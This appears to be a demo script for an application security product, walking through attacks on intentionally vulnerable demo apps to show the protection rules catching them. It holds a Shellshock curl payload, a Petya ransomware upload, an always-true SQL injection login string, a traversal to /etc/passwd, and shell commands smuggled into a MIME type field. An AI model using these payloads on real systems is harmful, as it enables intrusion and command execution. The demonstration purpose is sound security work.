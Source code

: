 # Application Security

- [Application Security](#application-security)
  - [Demoing w/ Uploader](#demoing-w-uploader)
    - [Shellshock](#shellshock)
    - [Petya](#petya)
  - [Demoing w/ InSecureStore](#demoing-w-insecurestore)
    - [SQL Injection](#sql-injection)
      - [Directory Traversal](#directory-traversal)
      - [Remote Command Execution](#remote-command-execution)

## Demoing w/ Uploader

**Before - Reactivate InSekureStore and Uploader**

### Shellshock

Open a terminal window and paste in the following (ShellShock) exploit:

```shell
curl -H "User-Agent: () { :; }; /bin/eject" http://demoapp3-108-129-65-162.nip.io/
```

*Application Security Protection by `Malicious Payload`*

### Petya

Upload: `Petya.bin`

*Application Security Protection by `Malicious File Upload`*

## Demoing w/ InSecureStore

### SQL Injection

At the login screen

```text
E-Mail: 1'or'1'='1
```

```text
Password: 1'or'1'='1
```

*Application Security Protection by `SQL Injection - Always True`*

#### Directory Traversal

URL

```url
...dev#/browser?view=../../../etc/passwd
```

#### Remote Command Execution

Go to `Mime Type Params` and change to

```text
-b && whoami
```

or

```text
-b && uname -a
```

Within the details of a text file you will see the output of your command.

*Application Security Protection by `Remote Command Execution`*
